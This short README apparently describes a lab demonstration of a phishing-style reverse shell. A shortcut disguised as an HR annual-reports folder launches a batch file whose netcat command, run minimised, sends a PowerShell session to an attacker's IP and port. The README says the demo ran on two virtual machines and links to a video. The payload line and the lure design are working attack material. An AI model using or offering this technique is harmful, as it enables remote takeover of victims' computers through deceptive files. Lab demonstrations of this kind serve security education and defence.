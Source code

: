 Demo was made using 2 virtual machines:   
- Kali Linux
- Windows 10

Structure:   
Annual Reports 2023 - HR.lnk -> Linked to ransu.cmd
ransu.cmd:   
```bash
start /min nc64.exe <attacker ip> <attacker port> -e powershell
```

Both were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command.   

When the "folder"(shortcut) was opened, the payload was ran using netcat and the attacker, where the listener was, got the connection.   

[Revshell Demo](https://youtu.be/8v6djrHg2qI)